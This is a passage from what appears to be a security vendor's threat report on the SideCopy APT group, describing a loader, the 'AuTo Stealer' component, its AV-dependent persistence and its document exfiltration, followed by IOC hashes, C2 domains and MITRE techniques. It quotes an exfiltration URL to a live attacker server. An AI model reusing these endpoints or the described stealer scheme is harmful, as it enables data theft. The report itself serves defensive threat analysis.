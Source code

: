 execute a malicious HTA file using Mshta in addition to its normal function that can load and show the pictures. This executable has been compiled on October 26 2021. The rest of the process is similar to what we described in the previous section.     AuTo Stealer   We also came across another Stealer used by this actor that has been written in C++. To the best of our knowledge this is a new Stealer used by SideCopy APT. A Loader has been used to drop and load an executable (credbiz.exe) that side loads the Stealer. We were able to identify two different variants of this Loader that have been used to load an HTTP version and TCP version of the Stealer. Both of these loaders and the Stealer components have been compiled on October 30 2021:  Loader   Based on the functionality, we can say this Loader is a C++ variant of PreBotHta.dll (C# Loader used to load other Rats used by this actor). This Loader is responsible for dropping the following files in C:ProgramDataOracle directory:   credwiz.exe executable and rename it as credbiz.exe. TextShaping.dll (Stealer component that will be side loaded by credbiz.exe)     Similar to PreBotHta.Dll, it checks the installed AV product on the victim’s machine and performs additional actions based on the AV product name. For example if the AV is Avast, Avira, BitDefender or AVG it creates a batch file (sysboot.bat) and executes it by calling cmd.exe. This makes credbiz.exe persistence through the AutoRun registry key. If the installed AV is one of the Kaspersky, Symantec, Mcafee or QuickHeal it creates an lnk file (Win Setting Loader.lnk) for persistency in StartUp directory.  After performing the additional process, it executes credbiz.exe by calling CreateProcessW.     TextShaping.dll (Stealer component)   The actor used two different variants of the Stealer Stealer: HTTP and TCP. The HTTP version performs the exfiltration over HTTP while the TCP variant performs all the exfiltration over TCP. This component also has an interesting unique PDB path: "D:Project AlphaHTTP AutoappReleaseapp.pdb"  This Stealer collects PowerPoint, Word, Excel and PDF documents, text files, database files and images and exfiltrates them to its server over HTTP or TCP. To exfiltrate the data using HTTP, it builds a request that is specific to data files being exfiltrated and sends them over an HTTP server. For example, when it wants to exfiltrate PowerPoint documents it builds the following request and sends them over HTTP:http://newsroom247.xyz:8080/streamppt?HostName_UserName     For other file types it adds the /stream related to the file type and exfiltrates them to server. Here are the list of them: /streamppt, /streamdoc, /streamxls, /streamdb, /streamtxt, /streampdf, /streamimg.  Before starting the stealing process, it collects the victim’s information including username, hostname, OS info and AV products and sends them to its server by adding “user_details” to the domain. Also, it collects file information from the victim’s machine and stores it in a file “Hostname_UserName.txt” and sends the file by using the “logs_receiver” command.  Conclusion   The SideCopy APT has been actively targeting government and military officials in South Asia. The group mainly uses archived files to target victims in spam or spear phishing campaigns. The archive files usually have an embedded lnk, Office or Trojanized application that are used to call mshta to download and execute an hta file. The hta files perform fileless payload execution to deploy one of the RATs associated with this actor such as AllaKore or Action Rat. Malwarebytes products can identify the initial infection vectors used by SideCopy and block them from execution.     IOCs       Name IOC Type Description   Report-to-NSA-Mohib-Meeting-with-FR-GE-UK.zip 4E26CCAD3FC762EC869F7930A8457E4D MD5    schengen_visa_application_form_english.zip C2831369728B7247193E2DB567900ABE MD5    new document.zip 689B9FDBF35B8CEFC266A92D1D05A814 MD5    Image-8765.zip D52021F350C9C2F8EE87D3B9C070704A MD5    Image-8853.zip D99491117D3D96DA7D01597929BE6C8E MD5    479_1000.zip 7C0A49F3B4A012BADE8404A3BE353A48 MD5    Muniba.zip A65D3AB8618E7965B9AE4FAE558EB8F2 MD5    nisha.zip 48C165124E151AA2A1F4909E0B34E99C MD5    Whatsapp-Image-7569.zip 0023A30B3F91FA9989E0843BBEB67CC1 MD5    Download-Maria-Gul-CV.zip 5044027CCB27401B06515F0912EB534A MD5    DP_TCP.exe ec87ddad01869b58c4c0760a6a7d98f8 MD5 AuTo Stealer   DP_HTTP.exe e246728aa4679051ed20355ae862b7ef MD5 AuTo Stealer    TextShaping.dll c598a8406e2b9ec599ab9e6ec4e7d7c2 MD5 AuTo Stealer   TextShaping.dll 5f49c816d7d2b6fa274041055cc88ba7 MD5 AuTo Stealer    Payloads         Domain/IP Description   afrepublic.xyz C2   newsroom247.xyz C2   afghannewsnetwork.com C2   maajankidevisevasansthan.org Host payloads   amsss.in Host payloads   scouttable.xyz C2   securedesk.one C2   eurekawatersolution.com Host payloads   republicofaf.xyz C2   securecheker.in Host payloads   appsstore.in C2   scout.fontsplugins.com C2   144.126.141.41 C2    C2s and Payloads Hosts   Mitre attack techniques       Tactic id Name  Details   Phishing T1566.001 Spear phishing Attachment  Distribute archive file as an spear phishing attachment   Execution T1047 Windows Management Instrumentation  Uses WMIC.EXE to obtain a system information Uses WMIC.EXE to obtain a list of AntiViruses   Execution T1059.003 Command and Scripting Interpreter: Windows Command Shell  Starts CMD.EXE for commands execution   Execution T1204.001 User Execution: Malicious Link     Execution T1204.002 User Execution: Malicious File     persistence T1547.001 Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder     Discovery T1012 Query Registry  Reads the computer name   Discovery T1082 System information discovery     Discovery T1518.001 Software Discovery: Security Software Discovery  Uses WMIC.EXE to obtain a list of AntiViruses   Defense Evasion T1218.005 Signed binary